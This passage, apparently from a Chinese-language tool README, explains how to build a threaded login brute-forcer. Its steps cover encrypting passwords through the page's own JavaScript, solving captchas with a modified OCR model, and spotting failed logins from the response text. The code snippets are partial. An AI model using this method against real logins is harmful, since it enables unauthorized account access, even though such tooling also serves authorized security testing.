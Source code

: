 ```python
password_encrypted = BROWSER.execute_script('return cipher.encrypt(arguments[0])', password)

# 别忘了在脚本退出前关闭浏览器，释放系统资源
BROWSER.quit()
```

## 六、验证码识别（可选）

这里所使用的验证码识别模块是改版的[DdddOcr](https://github.com/sml2h3/ddddocr)，感谢作者提供的训练模型及使用代码

```python
import requests
import captchadet

# 引入验证码识别模型
MODEL = captchadet.init_model()

# 验证码识别
url = "https://example.com"
session = requests.Session()
response = session.get(url + "/login/vcode")
captcha = captchadet.identify(MODEL, response.content) # 这里 captcha 就是识别结果
```

## 七、开始编写爆破函数

上面编写的代码都是预备环节，接下来开始编写真正负责发起登录操作的 `run` 函数：

```python
def run(username, password): # 爆破函数，返回 (no_exception, found_password)
    ...
```

> 该函数由 `futures.ThreadPoolExecutor` 线程池负责调度，每调用一次 `run` 函数，就发起一次登录操作

> `run` 函数的参数 `username`、`password` 也由线程池负责自动填充

> `run` 函数的返回值为两个布尔值 (no_exception, found_password)
> + `no_exception` 指示了此次登录操作没有遭遇异常（如：服务器拒绝连接，返回的内容无法解析），如果一切正常，返回True，否则返回False
> + `found_password` 指示了此次登录是否找到了正确密码，如果判断找到了密码，返回True，否则返回False

这里给出一个简单的爆破例子，只要掌握requests模块的用法，相信你能很轻易的读懂以下代码，在这个例子中，判断登录密码是否找到，主要看服务器的响应中，是否包含 "Login failed" 或 "Unknown user" 字段：

> `username` 和 `password` 参数可以调用前面提到的加密算法进行加密，同时也可以结合上述的验证码识别、JS函数调用等操作，项目的代码中还提供更多可能会用到的代码，如：使用Xpath获取CSRF Token、使用NTLM认证等

> 代码支持设置自定义请求头和Cookies，只需要编辑、更新 `HEADERS` 和 `COOKIES` 变量即可

```python

# 设置Headers
HEADERS = requests.utils.default_headers()
HEADERS.update({
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0",
    "Connection": "close",
})

# 设置Cookies
COOKIES = {
    'SESSIONID': '',
}

def run(username, password): # 爆破函数，返回 (no_exception, found_password)

    time.sleep(DELAY) # 延迟一段时间再爆破

```